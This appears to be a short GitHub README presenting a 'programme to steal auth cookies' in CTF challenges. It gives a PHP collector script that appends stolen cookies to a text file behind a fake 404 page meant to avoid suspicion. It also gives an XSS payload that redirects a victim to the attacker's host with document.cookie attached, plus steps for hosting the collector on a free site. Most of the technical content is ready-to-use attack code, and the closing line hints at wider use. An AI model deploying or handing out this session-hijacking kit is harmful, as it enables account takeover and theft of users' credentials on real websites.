 Programme to steal Auth cookies in CTFs Challenges:-

OVERVIEW-
__________________________________________________________________________________________________________________________________________________

Here, I made a simple php script and JavaScript thet steal cookies from admin/victum.
I learned this technique when i was playing google ctf Although i was not qualified into finals but i learned a lot.

so,
here we have a php script "cookietry.php" and two txt file "getcookies.txt" "malicious_code.txt" 

Requirement to perform this Attack:-
1.) A free webhosting site like (000webhost)
2.) Some technical knowledge

First, we need to host "cookietry.php" and "getcookies.txt" into some free hosting site.
then,note down address of your website.

Now let's see how this technique works.

NOTE:-This technique will only work if website have xss vulnerability(Which happens in most CTFs)

Attacker inject malicious javascript code into website and when someone/admin visited their link he/she automatically redirected to attacker website 
and their cookies get stolen.
which is easily accessible by attacker in "getcookies.txt"

Here comes Technical Parts
__________________________________________________________________________________________________________________________________________________

working of php code:-

<?php
if (isset($_GET['cookie']))
{
	$file = 'getcookies.txt';
	file_put_contents($file,$_GET['cookie'].PHP_EQL, FILE_APPEND);	
}
?>
<!DOCTYPE.html>
<html>
<title>ERROE 404-Problem found</title>
<body>
<h1 align="center"> oh No! Something went Wrong</h1>
</body>
</html>

I simply using GET request to capture cookies and store into "getcookies.txt" file.(Nothing Fancy)
and at last part of this code we display an error message "oh No! Something went Wrong" to avoid being suspecious.

at last that javascript malicious code that we execute into website

<script>window.location='https://your-website-address/cookietry.php?cookie='+escape(document.cookie)</script>
 
This code simply redirect victum/admin onto our sites and steal cookies.

That's it.(^_^)

This technique looks simple but become more powerfull when comes to right hand.(^_^)



